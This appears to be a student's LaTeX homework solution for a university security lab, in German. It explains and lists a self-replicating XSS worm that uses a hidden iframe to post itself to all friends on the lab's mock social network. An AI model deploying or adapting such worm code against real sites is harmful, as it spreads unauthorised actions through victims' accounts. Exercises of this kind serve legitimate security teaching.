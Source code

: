 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsection*{a)}

Versand: Do.28 November 15.54 von peter\_bernd1@hell.sex nach peter\_bernd2@hell.sex
Das Listing \ref{berndbookworm} zeigt unsere Version des Berndbookworm. Dabei enthält das Listing die initiale Nachricht. Wir benutzen ein iFrame um die Website \texttt{http://berndbook.seclab.uni-paderborn.de/send.php} mit den Anmeldedaten vom aktuellen Benutzer aufzurufen. Damit dies nicht auffällt verstecken wir den iFrame per CSS Befehlen. Danach laden wir jQuery nach um uns die Arbeit mit den Website Elementen zu vereinfachen. In Zeile 8 fängt unser eigentliches Angriffskript an. Die Funktion \texttt{reproduction} führt die eigentliche Reproduktion aus. Es setzt die selbe Nachricht noch einmal zusammen. Dabei wird der aktuelle Parameter n um eins verringert. Dies sorgt dafür, dass sich das Skript nur \textit{b} mal verbreitet. Anschließend setzt das Skript diese Nachricht in das Formular auf der Unterseite \texttt{send.php} ein. Dann werden alle Checkboxen, die die Freunde repräsentiert ausgefüllt und das Formular abgeschickt. Damit die leere Nachricht den Benutzern nicht sofort auffällt haben wir einen Text ("CHello my freend!") und ein Bild in die Nachricht eingefügt.

\begin{lstlisting}[caption=Berndbookworm, label=berndbookworm]
CHello my freend!
<img src="https://alcapwn.de/logo.png" />
<iframe src="http://berndbook.seclab.uni-paderborn.de/send.php" name="send_in_a_box" style="visibility:hidden;" width="0" height="0"></iframe>

<script type="text/javascript" src="http://code.jquery.com/jquery-1.10.2.min.js">
</script>

<script type="text/javascript">

function reproduction(n){
	if (n >0){
		reproduction_function = reproduction.toString();
		iframe_string = "CHello my freend!<img src=\"https://alcapwn.de/logo.png\"\/><iframe src=\"http://berndbook.seclab.uni-paderborn.de/send.php\" name=\"send_in_a_box\" style=\"visibility:hidden;\" width=\"0\" height=\"0\"></iframe>";
		jquery_string = "<script type=\"text/javascript\" src=\"http://code.jquery.com/jquery-1.10.2.min.js\"><\/script>";
		script_start = "<script type=\"text/javascript\">";
		function_call = "$('body').attr('onload','reproduction(" + (n-1) + ");');"
		script_end = "<\/script>";
		msg = iframe_string + jquery_string + script_start + reproduction_function + function_call + script_end;
		$('iframe').contents().find('textarea').val(msg);
		$('iframe').contents().find('input[type=checkbox]').click();
		$("iframe").contents().find("input[type=submit]").click()
	}
}

$('body').attr('onload','reproduction(2);');
</script>
\end{lstlisting}

\subsection*{b)}



\section*{Aufgabe 3}
\end{document}
